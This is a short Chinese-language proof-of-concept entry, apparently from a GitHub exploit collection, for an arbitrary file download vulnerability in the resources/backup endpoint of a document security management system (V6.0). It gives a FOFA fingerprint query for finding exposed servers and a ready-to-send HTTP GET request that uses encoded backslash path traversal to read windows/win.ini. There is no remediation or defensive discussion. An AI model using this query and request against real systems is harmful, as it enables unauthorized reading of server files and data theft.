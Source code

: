 # 电子文档安全管理系统V6.0接口backup存在任意文件下载漏洞

济南上邦电子科技有限公司电子文档安全管理系统 V6.0 resources/backup存在任意文件下载漏洞，攻击者可通过该漏洞获取服务器所有文件信息

## fofa

```javascript
body="docsafe/docsafe.nocache.js"
```

## poc

```javascript
GET /resources/backup//..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cwindows/win.ini HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

